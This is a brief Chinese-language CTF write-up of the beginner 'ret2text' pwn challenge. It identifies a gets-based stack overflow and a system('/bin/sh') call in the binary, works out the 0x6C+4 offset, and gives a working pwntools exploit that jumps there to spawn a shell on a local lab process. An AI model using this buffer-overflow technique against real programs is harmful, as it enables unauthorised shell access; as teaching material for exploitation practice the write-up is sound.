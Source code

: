 随后查看main函数可能发现用了gets，存在栈溢出漏洞

之后又发现

```
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```

如果我们把程序控制流运行到该地址就可以直接getshell了

于是下个断点查看

![image-20230625223245615](PWN/image-20230625223245615.png)

由此可以推断

- s 的地址为0xffffcfbc
- s 相对于 ebp 的偏移为 0x6C
- s 相对于返回地址的偏移为 0x6C + 4

于是写出exp

```python
from pwn import *

sh = process('ret2text')

target = 0x0804863A

sh.sendline(b'Z' * (0x6C + 4) + p32(target))

sh.interactive()
```


